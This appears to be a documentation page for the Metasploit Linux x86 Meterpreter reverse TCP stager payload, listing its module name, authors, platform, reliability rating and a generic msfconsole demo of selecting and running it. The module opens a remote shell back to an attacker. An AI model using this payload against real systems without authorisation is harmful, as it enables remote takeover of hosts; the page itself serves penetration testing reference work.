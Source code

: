 ## Linux Meterpreter, Reverse TCP Stager

Inject the meterpreter server payload (staged). Connect back 
to the attacker


## Module Name
payload/linux/x86/meterpreter/reverse_tcp

## Authors
* PKS
* egypt
* OJ Reeves
* skape





## Platforms
* linux

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/linux/x86/meterpreter/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    